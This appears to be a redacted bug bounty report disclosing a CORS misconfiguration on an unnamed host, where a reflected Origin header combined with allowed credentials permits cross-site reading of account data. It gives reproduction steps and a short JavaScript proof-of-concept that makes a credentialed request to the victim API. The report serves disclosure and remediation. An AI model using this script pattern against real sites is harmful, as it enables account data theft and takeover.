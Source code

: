 Account takeover via CORS


Hi,


## Summary

The following host suffer to a CORS (Cross Origin Resource Sharing) misconfiguration.

xxx.xxxxxxxxxxx.xxx


## Description

Since the header `Access-Control-Allow-Credentials` is set to `true` and since the header `Access-Control-Allow-Origin` in the HTTP response reflects the header `Origin` in the HTTP request, it's possible for a malicious page to trick it to allow this remote website to access customers datas and perform unauthorized actions.  
All actions available in the API to be exact like xxxxxxxxxxxxxxxxxxxxxx and so on, a full CRUD access to the account.


## Steps to Reproduce

1/ login your account here:
`https://xxx.xxxxxxxxxxxxxx.xxx`  
2/ add something in your cart, like a domain  
3/ Open a new tab in your browser and visit this url:
`http://poc.xxxxxxxxxxxx.xxx/poc/xxxxxxxxxxx.html`

Your personnal infos must be displayed. 


## PoC

{}

__Script__
```
<script type="text/javascript">
  function cors() {
  var xhttp = new XMLHttpRequest();

  xhttp.onreadystatechange = function() {
    //if (this.readyState == 4 && this.status == 200) {
    document.getElementById("demo").innerHTML = this.responseText;
    //}
  };

  xhttp.open("GET", "https://xxx.xxxxxxxxxxx.xxx/api/xxxxx", true);
  xhttp.withCredentials = true;
  xhttp.send();
}

cors();
</script>
```


## See also

https://www.owasp.org/index.php/CORS_OriginHeaderScrutiny  
http://blog.portswigger.net/2016/10/exploiting-cors-misconfigurations-for.html  
https://www.cynet.com/wp-content/uploads/2016/12/Blog-Post-BugSec-Cynet-Facebook-Originull.pdf  




Best regards, 

Gwen

